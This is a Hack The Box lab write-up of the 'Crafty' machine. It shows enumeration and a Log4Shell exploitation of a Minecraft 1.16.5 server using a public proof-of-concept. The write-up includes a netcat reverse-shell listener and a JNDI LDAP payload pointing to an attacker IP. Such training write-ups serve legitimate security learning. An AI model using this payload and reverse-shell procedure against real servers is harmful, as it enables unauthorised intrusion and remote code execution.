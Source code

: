 ```yaml
---
title: 'HTB Crafty Writeup'
date: 2024-05-21
permalink: /posts/2024/05/HTB-Crafty-Writeup/
tags:
  - HTB
  - writeup
  - easy
---
```


A writeup of the Hack The Box machine "Crafty" with easy difficulty

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 232406.png'>

**Hello! Welcome to this writeup of the hack the box windows machine Crafty with easy difficulty.**

Enumeration
======
The first step is scanning the machine IP with nmap to discover what ports and services are running.

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 232601.png'>

We see that port 80 in running a Windows IIS server at the crafty.htb URL.

To access the site, we add the URL and corresponding IP to the hosts list with: `echo "10.10.11.249   crafty.htb" | sudo tee -a /etc/hosts`

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 232749.png'>

Oeh a Minecraft related site!

Navigating the site gives us nothing except the play.crafty.htb address.

We run a dirsearch to enumerate the URLs > 

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 232945.png'>

If we go the the /img directory in the URL we get a 403 - Forbidden: Access is denied.

Let’s add the subdomain play.crafty.htb to the hosts list to see where this is leading.

Alright, this just redirects us back to crafty.htb.

Oh! I just realized that this could be a Minecraft server. These usually run on port 25565. 

Let's run nmap again to discover the ports properly. 

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 233226.png'>

A Minecraft 1.16.5 server. 

User flag
======
Let’s search for vulnerabilities:

I found an article on how to exploit a 1.16.5 server with the well-known log4shell vulnerability: [https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847](https://software-sinner.medium.com/exploiting-minecraft-servers-log4j-ddac7de10847)

There is a tool for the log4 shell exploit: [https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file&source=post_page-----b9ff472f9d12--------------------------------](https://github.com/kozmer/log4j-shell-poc?tab=readme-ov-file&source=post_page-----b9ff472f9d12--------------------------------)

After cloning this repo we run the `pip install -r requirements.txt` command. 

After that, let’s see what the poc.py file does. > 

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 233432.png'>

I changed the `String cmd` value to `cmd.exe`, because it is a windows server.

Let’s run the script with a netcat listener to accept reverse shell connection. > `nc -lvnp 4444`

Command > `python3 poc.py --userip localhost --webport 8000 --lport 4444`

Oh, I got an error that I don’t have jdk1.8.0_20/bin/java' installed. So let’s do that via this website > [https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html](https://www.oracle.com/java/technologies/javase/javase8-archive-downloads.html)

We need to make an account to download the Java SE Development Kit 8u20.

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 234220.png'>

Unzip it with `gzip –d jdk-8u20-linux-i286.tar.gz` and `tar -xf`

The filename has to be changed to jdk1.8.0_20

Then run the script again > 

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 234405.png'>

Now I realized I have to run Minecraft inside my Kali. This can be done with TLauncer.

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 234512.png'>

Then we send this in the chat of the Minecraft server: `${jndi:ldap://10.10.14.33:1389/a}`

And we are in! 

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 234650.png'>

The user flag is in the Desktop directory >

<img src='/images/HTB_Crafty/Screenshot 2024-06-10 234816.png'>

Root flag
======
I could not figure out a way to get admin privileges and found an article on how to get it: [https://medium.com/@jamesjarviscyber/crafty-hackthebox-walkthrough-technical-management-summaries-b9ff472f9d12](https://medium.com/@jamesjarviscyber/crafty-hackthebox-walkthrough-technical-management-summaries-b9ff472f9d12)

To get to the root flag read the writeup :)

Conclusion
======
This machine is marked as easy. I do not agree with that, because it gets complicated with many listeners, finding the exploit that works and finding an entry point. Besides that, it was fun at first due to the fact that the machine is a Minecraft server, but if you get deeper into the machine the fun gets taken away for me sadly. That’s why I didn’t proceed trying to break in myself to gain the root flag.

Have a nice day!